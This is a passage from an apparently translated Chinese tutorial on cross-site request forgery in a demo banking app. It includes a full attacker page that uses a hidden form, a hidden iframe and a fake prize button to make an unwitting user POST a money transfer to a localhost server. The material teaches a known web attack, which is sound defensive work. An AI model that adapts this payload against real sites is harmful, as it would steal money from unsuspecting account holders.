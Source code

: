 这里没有什么太复杂的:在 POST 请求中，从用户的余额中减去提供的金额，并添加到与提供的帐号相关联的余额中。当用户通过身份验证时，银行服务器基本上信任来自浏览器的请求。由于这个路由处理程序无法抵御 CSRF 攻击，攻击者可以利用这种信任，诱使某人在不知情的情况下在银行服务器上执行操作。这正是 *hacker/index.html* 页面所做的:

```py
`<form hidden id="hack" target="csrf-frame" action="http://localhost:5000/accounts" method="POST" autocomplete="off">
    <input type="number" name="amount" value="2000">
</form>
<iframe hidden name="csrf-frame"></iframe>

<h3>You won $100,000</h3>
<button onClick="hack();" id="button">Click to claim</button>
<br>
<div id="warning"></div>

<script> function  hack()  { document.getElementById("hack").submit(); document.getElementById("warning").innerHTML="check your bank balance!"; } </script>` 
```

您可以在 [http://localhost:8002](http://localhost:8002) 上提供此页面，方法是导航到项目目录，并在新的终端窗口中运行以下命令:

```py
`$ python -m http.server --directory hacker 8002` 
```

![malicious site](img/5b4502d2aab5cdbe4147162a382f9395.png)

除了糟糕的设计，在普通人看来，没有什么值得怀疑的。但在幕后，有一个隐藏的表单在后台执行，从用户的帐户中删除所有的钱。
